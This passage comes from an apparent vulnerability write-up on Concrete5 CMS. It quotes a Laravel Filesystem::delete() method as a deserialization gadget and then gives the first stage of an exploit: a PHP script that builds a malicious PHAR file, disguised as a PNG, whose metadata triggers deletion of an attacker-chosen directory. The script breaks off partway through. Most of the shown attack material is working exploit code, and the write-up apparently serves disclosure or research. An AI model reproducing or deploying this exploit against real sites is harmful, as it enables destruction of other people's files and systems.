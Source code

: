 - Gadget #3. Filesystem::delete()

```php
// File: concrete/vendor/illuminate/filesystem/Filesystem.php
// Class: Filesystem
// Line: 148 ~ 165

     public function delete($paths)
     {
         $paths = is_array($paths) ? $paths : func_get_args();
 
         $success = true;
 
         foreach ($paths as $path) {
             try {
                 if (! @unlink($path)) { // ........................................ (f)
                     $success = false;
                 }
             } catch (ErrorException $e) {
                 $success = false;
             }
         }
 
         return $success;
     }
```



#### Exploit code

#### Stage #1. Make PHAR file to exploit.

```php
// Input: None
// Output: concrete5_exploit.png

<?php
// Gadgets
namespace Illuminate\Filesystem{
  class Filesystem{}
}
namespace Concrete\Core\File\Service{ 
  class VolatileDirectory{
    protected $filesystem;
    protected $path;
    function __construct(){
      $this->filesystem = new \Illuminate\Filesystem\Filesystem;
      $this->path = "/var/www/html/phar_exploit/test_dir";
      // Directory that including some files. (Attacker can set any path.)
    }
  }
}

// Generate phar file to exploit
namespace{
  $output_path = __DIR__;
  $exploit_file = $output_path . "/concrete5_exploit.phar";
  $phar = new Phar($exploit_file);
  $phar->startBuffering();
  $phar->setStub("<?php __HALT_COMPILER();");
  
  $payload = new \Concrete\Core\File\Service\VolatileDirectory;
  $phar->setMetadata($payload);
  
  $phar->addFromString("dummy.txt", "DUMMY");
```